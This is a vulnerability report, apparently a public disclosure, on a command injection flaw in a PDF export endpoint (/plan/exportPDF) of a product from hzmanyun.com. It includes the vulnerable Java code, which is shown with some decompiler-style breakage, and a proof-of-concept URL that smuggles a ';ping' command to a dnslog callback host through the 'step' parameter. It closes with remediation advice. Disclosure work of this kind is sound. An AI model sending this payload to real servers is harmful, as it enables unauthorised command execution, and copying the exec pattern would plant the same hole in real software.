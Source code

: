 ![image-20250225202128301](./assets/image-20250225202128301.png)

# Vulnerability Report
## Vendor Homepage
https://hzmanyun.com

## Title: Remote Command Execution (RCE) in PDF Export Functionality
### Summary:
The code snippet provided contains a vulnerability that allows for Remote Command Execution (RCE) due to improper handling of user input in the exportPDF function.

### Affected Endpoint:
/plan/exportPDF

### Vulnerability Type:
Remote Command Execution (RCE)

### Vulnerable Code:
```java
@RequestMapping({"/plan/exportPDF"})
public void exportPDF(HttpServletResponse response, @RequestParam("id") Long id, @RequestParam("step") String step) {
   try {
      Runtime run = Runtime.getRuntime();
      String rootPath = ContextLoader.getCurrentWebApplicationContext().getServletContext().getRealPath("/");
      String fileName = System.currentTimeMillis() + ".pdf";
      String filePath = rootPath + "/pdffile/" + fileName;
      File dir = new File(rootPath + "/pdffile/");
      if (!dir.exists()) {
         dir.mkdir();
      }

      Process process = run.exec("wkhtmltopdf --page-size A3 "
              + CommonConstants.contextPath
              + "/plan/infoExportPDF?id="
              + id + "&step="
              + step + " "
              + filePath);
      process.waitFor();
      response.setHeader("content-disposition", "attachment;filename=" + URLEncoder.encode(fileName, "UTF-8"));
      InputStream in = new FileInputStream(new File(filePath));
      int len = false;
      byte[] buf = new byte[1024];
      OutputStream out = response.getOutputStream();

      int len;
      while((len = in.read(buf)) > 0) {
         out.write(buf, 0, len);
      }

      in.close();
   } catch (Exception var14) {
      logger.error("---------------------" + var14);
   }

}
```

### Proof of Concept (PoC):
```
http://uri/plan/exportPDF?id=1&step=;ping 490b6a1c.log.dnslog.sbs.;
```

![image-20250225210630755](./assets/image-20250225210630755.png)

### Impact:

An attacker can exploit this vulnerability by injecting arbitrary commands in the 'step' parameter of the URL, leading to the execution of unauthorized commands on the server hosting the application.

### Recommendation:
1. Validate and sanitize user input to prevent command injection vulnerabilities.
2. Avoid using user input directly in command execution functions.
3. Implement proper input validation and output encoding to mitigate such vulnerabilities.
4. Regularly update and patch third-party libraries to prevent known vulnerabilities.

### Conclusion:
The presence of this RCE vulnerability in the exportPDF function could lead to severe security risks for the application and its users. It is crucial to address this issue promptly to prevent potential exploitation by malicious actors.

### References:
- OWASP Command Injection: https://owasp.org/www-community/attacks/Command_Injection

